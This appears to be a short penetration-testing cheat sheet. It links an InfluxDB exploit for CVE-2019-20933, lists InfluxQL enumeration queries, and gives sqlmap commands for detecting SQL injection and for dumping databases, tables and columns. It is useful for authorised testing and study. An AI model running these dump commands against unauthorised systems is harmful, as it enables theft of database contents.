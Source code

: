# Influx DB

[CVE-2019-20933 Influxdb](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933)

```
> show databases # to display databases
> show field keys # field keys (like columns in sql)
> show measurements # to display measurements (like tables in sql)
{
  ...
  "results": [
    "values": [
        [
            <strong>"foo"</strong>
        ]
    ]
  ...
}
> select * from "foo" # display all content of measurments (table) 'foo' (keep the doubles quotes)
```

# Dynamodb

See [this page](../wiki/Cloud.md)

# SQL Injection
## SQLmap

[SQLmap Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

### Discovery
```bash
sqlmap -r req
# If you know info
sqlmap -r req --os <os> --dbms <type db> --technique <tech>
```

- [List OS](https://github.com/sqlmapproject/sqlmap/wiki/Usage#force-the-database-management-system-operating-system-name)
- [List DBMS](https://github.com/sqlmapproject/sqlmap/wiki/Usage#force-the-dbms)
- [List Techniques](https://github.com/sqlmapproject/sqlmap/wiki/Usage#sql-injection-techniques-to-test-for)

### Get DB
```bash
# List databases
sqlmap -r req --predict-output --dbs
# List Tables
sqlmap -r req --predict-output --tables -D db
# Dump Table
sqlmap -r req --predict-output --dump -D db -T table 
# Dump Column(s)
sqlmap -r req --predict-output --dump -D db -T table -C column
```
